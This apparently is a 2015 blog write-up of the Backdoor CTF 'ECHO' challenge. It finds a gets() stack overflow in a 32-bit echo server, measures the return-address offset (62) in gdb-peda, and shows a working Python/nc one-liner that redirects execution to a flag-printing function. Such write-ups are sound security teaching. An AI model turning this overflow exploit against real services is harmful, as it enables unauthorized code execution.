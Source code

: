 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - ECHO Writeup"
date: 2015-04-03 02:12:58 +0430
comments: true
categories: ctf backdoor bianry exploit bof
---
```


**Backdoor 2015 ECHO Writeup**  
**Point = 100**  
**Category = Binary**  

> Little Suzie started learning C. She created a simple program that echo's back whatever you input. Here is the binary file. The vampire came across this service on the internet. nc hack.bckdr.in 8002. Reports say he found a flag. See if you can get it.

```
$ file echo
echo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=15ec07e5664a13e94069c818141cc9f70591d0f0, not stripped
```

As it seems we have a 32bit binary as a ECHO server. the output confirms this:

```
$ nc hack.bckdr.in 8002
GeeksSpeak
ECHO: GeeksSpeak
```

opening the binary in IDA shows us that the main function calls test() as we can see the psuedo-code below :

<!-- more -->
```
int test()
{
  char s; // [sp+1Eh] [bp-3Ah]@1

  gets(&s);
  return fprintf(_bss_start, "ECHO: %s\n", &s);
}

```

It's an obvious Stack buffer overflow. without loosing time i loaded it into *gdb* and used  cyclic pattern to find the offset:

```
$ gdb ./echo -q
Reading symbols from ./echo...(no debugging symbols found)...done.
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ shell echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL' > echo.test
gdb-peda$ r < echo.test 
Starting program: /home/hamidx9/ctf/backdoor/echo < echo.test
ECHO: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[-----------------------------------------------------------------------------------------------------------registers-----------------------------------------------------------------------------------------------------------]
EAX: 0x6b (b'k')
EBX: 0xf7fae000 --> 0x1a8da8 
ECX: 0x6b (b'k')
EDX: 0xf7faf86c --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x41324141 (b'AA2A')
ESP: 0xffffcdd0 ("dAA3AAIAAeAA4AA"...)
EIP: 0x41414841 (b'AHAA')
[-------------------------------------------------------------------------------------------------------------code--------------------------------------------------------------------------------------------------------------]
Invalid $PC address: 0x41414841
[-------------------------------------------------------------------------------------------------------------stack-------------------------------------------------------------------------------------------------------------]
00:0000| esp 0xffffcdd0 ("dAA3AAIAAeAA4AA"...)
01:0004|     0xffffcdd4 ("AAIAAeAA4AAJAAf"...)
02:0008|     0xffffcdd8 ("AeAA4AAJAAfAA5A"...)
03:0012|     0xffffcddc ("4AAJAAfAA5AAKAA"...)
04:0016|     0xffffcde0 ("AAfAA5AAKAAgAA6"...)
05:0020|     0xffffcde4 ("A5AAKAAgAA6AAL")
06:0024|     0xffffcde8 ("KAAgAA6AAL")
07:0028|     0xffffcdec ("AA6AAL")
[-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------]
Legend: stack, code, data, heap, rodata, value
Stopped reason: SIGSEGV
0x41414841 in ?? ()
gdb-peda$ pattern_offset 'AHAA'
AHAA found at offset: 62
gdb-peda$ 

```

So the `offset = 62`. but where should we jump? IDA shows us there is another function named `sample` which open `flag.txt` and print its content. All have to do is to call `sample` with address = *0x0804854d*.

Final payload looks like below :

```
[A*62] + [0x0804854d in little endian]
```

And finally we've got the flag:

```
$ python -c 'import struct; q=lambda x: struct.pack("<I", x); print "A"*62+q(0x0804854d)' | nc hack.bckdr.in 8002
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAM�
[redacted]
```

And another 100 pt.

HAMIDx9
